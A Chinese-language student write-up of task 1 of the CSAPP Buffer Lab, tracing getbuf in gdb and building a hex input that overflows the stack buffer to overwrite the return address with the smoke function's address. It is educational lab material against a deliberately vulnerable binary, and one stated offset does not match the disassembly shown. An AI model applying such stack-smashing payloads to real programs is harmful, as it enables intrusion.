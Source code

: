 1. task1

解决思路和attack lab类似，不同的是IA-32下寄存器只有32位。

首先来看getbuf的汇编形式：

```
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x080491f4 <+0>:		push   %ebp
   0x080491f5 <+1>:		mov    %esp,%ebp
   0x080491f7 <+3>:		sub    $0x38,%esp
   0x080491fa <+6>:		lea    -0x28(%ebp),%eax
   0x080491fd <+9>:		mov    %eax,(%esp)
   0x08049200 <+12>:	call   0x8048cfa <Gets>
   0x08049205 <+17>:	mov    $0x1,%eax
   0x0804920a <+22>:	leave  
   0x0804920b <+23>:	ret    
End of assembler dump.
```

注意这里一个特殊的地方就是这个leave指令，百度查它的语义：

```
leave ret指令详解
leave指令可以使栈做好返回的准备，它等价于mov %ebp,%esp，pop %ebp。首先是mov %ebp,%esp，当前保存的ebp的值使栈帧的栈底地址，所以这一句话的作用就是把esp给放回到调用者栈帧的栈顶，联系到进入函数时的语句mov %esp,%ebp，其实就是这个的逆过程，旨在恢复原来栈顶的状态。然后是pop %ebp，pop是对栈顶元素出栈，而现在的栈顶（也是栈底）存储的是调用者栈帧的栈底地址，这条指令就是把这一地址赋值给ebp（把被保存的ebp的值赋给寄存器ebp）。所以这句话就是恢复调用者栈帧的栈底，这样一来的话调用者栈帧旧基本上恢复到原来的状态了。
leave只是做好了返回的准备，我们调用完函数之后，调用者还需要接着向下执行指令，那么调用完函数以后就应该跳转到该函数的下一条指令的地址，我们的CALL指令就是先将下一条指令的地址入栈，然后跳转，这里ret的作用就是把那一个地址给弹出栈，并且跳转到地址对应的语句，再接着执行，这样一来一个函数就完整的执行了。
————————————————
版权声明：本文为CSDN博主「狍狍子」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/sakuraqwqqqqq/article/details/111879855
```

在来看具体行为：

分别在0x080491f7、0x0804920a、0x0804920b三处打上断点：

```
(gdb) b *0x080491f7
Breakpoint 1 at 0x80491f7
(gdb) b *0x0804920a
Breakpoint 2 at 0x804920a
(gdb) b *0x0804920b
Breakpoint 3 at 0x804920b
```

跑一下试试,, 顺便在第一个断点处看寄存器信息，为了清除起见，只保留了esp、ebp、eip三个寄存器的信息：

```
(gdb) run -u bovik
Starting program: /mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7

Breakpoint 1, 0x080491f7 in getbuf ()
(gdb) info r
...
esp            0x556835b0          0x556835b0 <_reserved+1037744>
ebp            0x556835b0          0x556835b0 <_reserved+1037744>
...                 
eip            0x80491f7           0x80491f7 <getbuf+3>
...
```

然后接着跑随便输入一个字符串：

```
(gdb) c
Continuing.
Type string:testString

Breakpoint 2, 0x0804920a in getbuf ()
(gdb) info r
...
esp            0x55683578          0x55683578 <_reserved+1037688>
ebp            0x556835b0          0x556835b0 <_reserved+1037744>
...
eip            0x804920a           0x804920a <getbuf+22>
...

(gdb) c
Continuing.

Breakpoint 3, 0x0804920b in getbuf ()
(gdb) info r
...
esp            0x556835b4          0x556835b4 <_reserved+1037748>
ebp            0x556835e0          0x556835e0 <_reserved+1037792>
...
eip            0x804920b           0x804920b <getbuf+23>
...
```

观察断点2的寄存器信息和断点3的寄存器信息，可以看到 leave函数就是将ebp的值——0x556835b0赋值给esp，此时esp=0x556835b0，然后栈顶再pop一下，此时esp=0x556835b4，然后执行ret。

那么我们只需要使得0x556835b4这个位置上是smoke函数的地址即可。

在第一个断点处，esp=0x556835b0，然后执行了：

```
0x080491f7 <+3>:		sub    $0x38,%esp
```

也就是说，字符串是从 0x556835b0 - 32 处开始输入的，而smoke函数的地址为0x08048c18，只需要使得输入字符串的栈结构如下即可：

![stack-task-1](/mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/stack-task-1.png)

那么输入字符串就是：

```
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
18 8c 04 08
```

试验：

```
cat task1.txt | ./hex2raw | ./bufbomb -u bovik
```

结果：

![res-task1](/mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/res-task1.png)

